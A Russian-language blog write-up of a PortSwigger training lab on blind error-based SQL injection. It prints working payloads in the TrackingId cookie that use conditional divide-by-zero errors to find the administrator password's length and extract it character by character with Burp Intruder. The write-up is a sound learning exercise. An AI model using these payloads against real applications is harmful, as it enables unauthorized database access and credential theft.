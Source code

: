 ```yaml
---
title: "Blind SQL injection"
date: 2025-06-14T13:37:00-04:00
categories: - blog
tags:
  - writeup
  - web
---
```


## Scope

[ссылка на лабу](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-error-based-sql-injection/sql-injection/blind/lab-conditional-errors)

```
https://0ae90054044f120581a76bcc00c300ed.web-security-academy.net/
```

В данной лабе есть уязвимый к [[Blind based SQL injections(SQLi)| Blind based SQL injection]] параметр в `Cookie`.

В БД есть таблицы с именам `users` и колонками `username` и `password`.

Нужно получить информацию из БД, чтобы зайти в аккаунт `administrator`.
## Notes

Во-первых, из условия известно, что уязвимость находится в `Cookie`, значит есть смысл сразу смотреть `HTTP` запросы.
Во-вторых, известно, что это `Blind Injection`, поэтому будет весело...

И так, возьму `GET`-запрос:

```HTTP
GET /filter?category=Gifts HTTP/2
Host: 0ae90054044f120581a76bcc00c300ed.web-security-academy.net
Cookie: TrackingId=qj7wR5JE68DIePPM; session=sdjSIBQgVY0TIDfdZDJ4oAKTKfz0ZAzb
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0af700f20342cbdda9c9b2a200cb0036.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive
```

Скорее всего уязвимым является `TrackingId`. Попробую посмотреть, как изменится ответ, при не верном значении `TrackingId=qj7wR5JE68DIePPM:

```HTTP
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 5267
```

Запрос отработал корректно, попробую добавить кавычку `TrackingId=qj7wR5JE68DIePPM'`:

```HTTP
HTTP/2 500 Internal Server Error
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 2324
```

Значит обрамление для запроса - это одинарная кавычка `'`. Протестирую это:

```
qj7wR5JE68DIePPM' and 1=0-- -Ok
qj7wR5JE68DIePPM' and 1=1-- -OK
```

Оба запроса отработали корректно. Это значит, что обрамление подобрано корректно, но проверка условий не работает. В таком случае можно попробовать [[Error based SubQuery injections(SQLi)|Error based SQL injection]]. Ее идея в том, чтобы вызвать ошибку в запросе, благодаря чему у нас на странице может отобразиться сообщение о ней. Объединив это с оператором `CASE` можно сделать следующий запрос:

```
qj7wR5JE68DIePPM' and (SELECT CASE WHEN (1=0) THEN TO_CHAR(1/0) ELSE '1' END FROM dual) = '1'-- -Ok
qj7wR5JE68DIePPM' and (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '1' END FROM dual) = '1'-- -Error
```

Запрос работает. Теперь в качестве условия подставлю нужное условие. Попробую узнать длину пароля:

```
qj7wR5JE68DIePPM' and (SELECT CASE WHEN LENGTH(password) < 40 THEN TO_CHAR(1/0) ELSE '1' END FROM users WHERE username = 'administrator') = '1'-- -Error
qj7wR5JE68DIePPM' and (SELECT CASE WHEN LENGTH(password) < 20 THEN TO_CHAR(1/0) ELSE '1' END FROM users WHERE username = 'administrator') = '1'-- -OK
qj7wR5JE68DIePPM' and (SELECT CASE WHEN LENGTH(password) > 20 THEN TO_CHAR(1/0) ELSE '1' END FROM users WHERE username = 'administrator') = '1'-- -Ok
qj7wR5JE68DIePPM' and (SELECT CASE WHEN LENGTH(password) = 20 THEN TO_CHAR(1/0) ELSE '1' END FROM users WHERE username = 'administrator') = '1'-- -Error
```

Я получил ошибку на условии `LENGTH(password) = 20`, значит длина пароля 20 символов. Теперь использую `SUBSTR` для подбора каждого символа со следующим пейлоадом:

```
qj7wR5JE68DIePPM' and (SELECT CASE WHEN SUBSTRING(password, 1, 1) = 'a' THEN TO_CHAR(1/0) ELSE '1' END FROM users WHERE username = 'administrator') = '1'-- -
```

Для упрощения подбора я используют `Burp Suite Intruder` с атакой `Brute Force`.

```
qj7wR5JE68DIePPM' and (SELECT CASE WHEN SUBSTR(password, 1, 1) = 'a' THEN TO_CHAR(1/0) ELSE '1' END FROM users WHERE username = 'administrator') = '1'-- -
```

Правильная буква будет в том случае, когда на запрос получается ошибка с кодом `500`, поэтому я отфильтровал другие запросы:

![[Pasted image 20250126154704.png]]

После 20 запросов я получил пароль: `h1dqh09pg0e86htryfv9`. Проверю его:

![[Pasted image 20250126155414.png]]

Вообще изи, решил не глядя)
